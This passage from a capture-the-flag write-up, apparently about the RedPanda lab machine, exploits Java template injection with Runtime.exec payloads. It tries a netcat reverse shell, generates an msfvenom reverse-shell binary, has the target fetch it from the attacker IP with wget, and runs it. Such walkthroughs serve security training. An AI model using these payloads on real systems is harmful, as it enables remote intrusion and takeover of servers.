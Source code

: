 Now our payload looks like this:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("ls")}`

Well, it didn't return the resutlts I was expecting. It just returned the results of that the command input was valid. That's also fine. This means that we can hopefully setup a `netcat` listener and catch and incoming call from the server. This is very much like the RCE listed in the above repo.

Command:
`*{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("nc 10.10.16.32 9999 -e /bin/sh")}`

Still nothing. So now as we look back through the repo with exploits, we see an instance of the `curl` command being used. So we try that.

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.32:9999")}`

![](/images/redpanda/panda5.png)

That does indeed work. So if we can get the server to `wget` a file from us and then launch it, we can probably catch a shell from that file. First we can generate a payload with `msfvenom`.

Command:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.32 LPORT=9999 -f elf > pwn.elf`

Now with our payload created, we will host it:

Command:
`python3 -m http.server 80`

Now we will craft the query payload:

Command:
`*{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("wget http://10.10.16.32/pwn.elf")}`

That didn't work due to the `http://` and after some tinkering with the query the `.getMethod().invoke()` need to be removed leaving us with:

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.16.32/pwn.elf")}`

We see it get the file!

![](/images/redpanda/panda6.png)

Now we need to execute it on the server. First we change the file permissions.

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./pwn.elf")}`

Now we execute it:

Command:
`*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./pwn.elf")}`

We catch the incomming connection!

![](/images/redpanda/panda7.png)
